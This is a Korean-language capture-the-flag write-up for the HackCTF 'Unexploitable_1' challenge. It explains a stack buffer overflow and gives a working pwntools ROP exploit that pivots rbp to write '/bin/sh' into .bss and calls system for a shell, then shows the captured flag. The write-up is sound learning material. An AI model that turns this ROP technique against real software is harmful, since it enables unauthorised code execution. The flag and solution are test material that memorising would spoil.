 #Unexploitable

---

우선 보호기법은 다음과 같다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
</pre>

shellcode를 통하지 않는듯 하다.

`main()`코드를 살펴보자.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Easy RTL ha? You even have system@plt!\n", 1uLL, 0x27uLL, stdout);
  fflush(stdin);
  fgets(&s, 64, stdin);
  return 0;
}
</pre>

RTL문제인듯 하다.

또 다음과 같은 함수가 있다.
<pre>
int gift()
{
  return system("use this system gadget :D");
}
</pre>
system 함수를 사용할 수 있도록 system@plt를 주었다.

다음과 같이 익스할 것이다.

[pop rdi ret] gadget과 "/bin/sh"의 위치를 구해서 rdi에 "/bin/sh"를 넣은 다음 system@plt로 ret시키면 된다. 하지만 이를 위해서는 "/bin/sh"의 위치를 구해야 하는데 이 위치를 구하기 위해서는 libc base주소가 필요하다. 때문에 `fwrite()`를 이용해서 system의 got를, 즉 system함수의 주소를 출력하여 libc base를 구한뒤 /bin/sh의 주소를 구하여 `system()`로 ret시킬 것이다.

이를 위해서 필요한 정보는 다음과 같다.

**pop\_rdi\_ret <br>
pop\_rsi\_ret <br>
pop\_rdx\_ret <br>
pop\_rcx\_ret <br>
fwrite\_plt <br>
system\_plt <br>
system\_got <br>
system\_offset <br>
binsh\_offset**

하지만 pop\_rdx\_ret과 pop\_rcx\_ret을 구현할 코드가 존재하지 않는다.

`fwrite()`이외에 출력할 수 있는 함수가 존재하지 않기 때문에 libc_base를 lick할 수 없다. 때문에 이 프로세스에서 사용되지 않은 다른 함수를 사용할 수 없으며, 기존에 있던 "/bin/sh" 문자열 또한 사용할 수 없다.

때문에 "/bin/sh"문자열을 새로 써야한다. stack에 쓰려고 하였더니 stack의 주소를 rdi로 넘길 방법이 없다. "mov rdi, rbp"와 같은 gadget을 구현할 방법이 없다. 때문에 `fgets()`를 이용해야한다.

<pre>
gdb-peda$ pd main
Dump of assembler code for function main:
...
   0x000000000040074d <+113>:	mov    rdx,QWORD PTR [rip+0x20091c]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x0000000000400754 <+120>:	lea    rax,[rbp-0x10]
   0x0000000000400758 <+124>:	mov    esi,0x40
   0x000000000040075d <+129>:	mov    rdi,rax
   0x0000000000400760 <+132>:	call   0x400580 <fgets@plt>
   0x0000000000400765 <+137>:	mov    eax,0x0
   0x000000000040076a <+142>:	leave  
   0x000000000040076b <+143>:	ret    
End of assembler dump.
</pre>

`main()`의 다음 부분을 보면 rbp의 값을 조작할 수 있다면 원하는 장소에 문자열을 쓸 수 있다. 고정주소인 bss영역에 "/bin/sh"를 쓸 것이며 그러기 위해서는 "pop rbp; ret" gadget이 필요하다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/24.Unexploitable_1$ ROPgadget --binary Unexploitable_1 | grep "pop"
...
0x0000000000400630 : pop rbp ; ret
...
</pre>

다행히 gadget이 존재한다.

따라서 다음과 같이 익스할 것이다. pop rbp; ret gadget을 통해서 rbp에 bss주소+0x10을 저장하고 `main()+113`으로 ret시킬 것이다. 이후 bss영역에 "/bin/sh"를 쓴 다음, pop rdi; ret gadget을 통해서 rdi에 bss주소를 넣고, gift로 ret시킬 것이다.

이를 위한 정보는 다음과 같다.

**pop\_rbp\_ret <br>
pop\_rdi\_ret <br>
main_113 <br>
bss <br>
system@plt**

위에서 pop\_rbp\_ret의 주소는 구했다.

**pop\_rbp\_ret=0x400630**

<pre>
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x004007d3 : (b'5fc3')	pop rdi; ret
</pre>

**pop\_rdi\_ret=0x4007d3**

위에서 `main()+113`의 주소는 구했다.

**main_113=0x40074d**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/24.Unexploitable_1$ objdump -h Unexploitable_1 | grep "bss"
 25 .bss          00000020  0000000000601060  0000000000601060  00001058  2**4
</pre>

**bss=0x601060**

<pre>
gdb-peda$ pd gift
Dump of assembler code for function gift:
   0x00000000004006c6 <+0>:	push   rbp
   0x00000000004006c7 <+1>:	mov    rbp,rsp
   0x00000000004006ca <+4>:	mov    edi,0x4007f8
   0x00000000004006cf <+9>:	mov    eax,0x0
   0x00000000004006d4 <+14>:	call   0x400560 <system@plt>
   0x00000000004006d9 <+19>:	nop
   0x00000000004006da <+20>:	pop    rbp
   0x00000000004006db <+21>:	ret    
End of assembler dump.
</pre>

**gift=0x4006d4**

다음과 같은 익스코드를 통해서 익스할 수 있었다.

<pre>
from pwn import*
#p=process('./Unexploitable_1')
p=remote('ctf.j0n9hyun.xyz', 3023)

p.recvline()

pop_rbp_ret=0x400630
pop_rdi_ret=0x4007d3
main_113=0x40074d
gift=0x4006d4
bss=0x601060+0x900

payload='A'*24
payload+=p64(pop_rbp_ret)
payload+=p64(bss+0x10)
payload+=p64(main_113)
p.sendline(payload)


payload2='/bin/sh\x00'
payload2+='\x00'*8
payload2+='A'*8
payload2+=p64(pop_rdi_ret)
payload2+=p64(bss)
payload2+=p64(gift)
p.sendline(payload2)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/24.Unexploitable_1$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3023: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{dyn5tr_tr1ck_^_^}

</pre>

**flag: HackCTF{dyn5tr_tr1ck_^_^}**

[?] system@plt로 ret시키면 안되고 gift로 ret시켜야 하는 이유?
